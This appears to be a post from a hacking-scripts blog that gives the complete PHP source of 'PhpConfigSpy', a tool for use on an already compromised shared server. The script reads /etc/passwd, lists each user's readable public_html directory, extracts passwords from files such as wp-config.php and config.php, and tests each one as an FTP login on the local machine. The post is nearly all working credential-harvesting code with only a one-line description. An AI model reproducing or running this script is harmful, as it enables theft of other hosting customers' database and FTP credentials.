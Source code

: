 ```yaml
---
id: 187
title: PhpConfigSpy
author: admin
layout: post
guid: http://hackingscripts.com/?p=187
permalink: /phpconfigspy/
categories:
  - PHP
tags:
  - PHP
  - PhpConfigSpy
---
```

This script appears to try to obtain login details for a compromised server.


### PhpConfigSpy Source Code

{% highlight php linenos %}<?php 
echo "<html>"; 
echo "<title>PhpConfigSpy v0.1</title><body>"; 

set_time_limit(0); 

###
###
###
###
###
###
###
###
### 
@$passwd=fopen('/etc/passwd','r'); 
if (!$passwd) { 
  echo "[-] Error : coudn't read /etc/passwd"; 
  exit; 
} 
$path_to_public=array(); 
$users=array(); 
$pathtoconf=array(); 
$i=0; 

while(!feof($passwd)) { 
$str=fgets($passwd); 
if ($i>35) { 
   $pos=strpos($str,":"); 
   $username=substr($str,0,$pos); 
   $dirz="/home/$username/public_html/"; 
   if (($username!="")) { 
       if (is_readable($dirz)) { 
           array_push($users,$username); 
           array_push($path_to_public,$dirz); 
       } 
   } 
} 
$i++; 
} 

###
###
###
###
###
###
###
###
#### 


###
###
###
###
###
###
###
###
###
###
###
#### 
echo "<br><br>"; 
echo "<textarea name='main_window' cols=100 rows=20>"; 

echo "[+] Founded ".sizeof($users)." entrys in /etc/passwd\n"; 
echo "[+] Founded ".sizeof($path_to_public)." readable public_html directories\n"; 

echo "[~] Searching for passwords in config.* files...\n\n"; 
foreach ($users as $user) { 
       $path="/home/$user/public_html/"; 
       read_dir($path,$user); 
} 

echo "\n[+] Done\n"; 

function read_dir($path,$username) { 
   if ($handle = opendir($path)) { 
       while (false !== ($file = readdir($handle))) { 
             $fpath="$path$file"; 
             if (($file!='.') and ($file!='..')) { 
                if (is_readable($fpath)) { 
                   $dr="$fpath/"; 
                   if (is_dir($dr)) { 
                      read_dir($dr,$username); 
                   } 
                   else { 
                        if (($file=='config.php') or ($file=='config.inc.php') or ($file=='db.inc.php') or ($file=='connect.php') or ($file=='wp-config.php') or ($file=='var.php') or ($file=='configure.php') or ($file=='db.php') or ($file=='db_connect.php')) { 
                           $pass=get_pass($fpath); 
                           if ($pass!='') { 
                              echo "[+] $fpath\n$pass\n"; 
                              ftp_check($username,$pass); 
                           } 
                        } 
                   } 
                } 
             } 
       } 
   } 
} 

function get_pass($link) { 
   @$config=fopen($link,'r'); 
   while(!feof($config)) { 
       $line=fgets($config); 
       if (strstr($line,'pass') or strstr($line,'password') or strstr($line,'passwd')) { 
           if (strrpos($line,'"')) 
              $pass=substr($line,(strpos($line,'=')+3),(strrpos($line,'"')-(strpos($line,'=')+3))); 
           else 
              $pass=substr($line,(strpos($line,'=')+3),(strrpos($line,"'")-(strpos($line,'=')+3))); 
           return $pass; 
       } 
   } 
} 

function ftp_check($login,$pass) { 
    @$ftp=ftp_connect('127.0.0.1'); 
    if ($ftp) { 
       @$res=ftp_login($ftp,$login,$pass); 
       if ($res) { 
          echo '[FTP] '.$login.':'.$pass."  Success\n"; 
       } 
       else ftp_quit($ftp); 
    } 
} 

echo "</textarea><br>"; 

echo "</body></html>"; 
?>
{% endhighlight %}
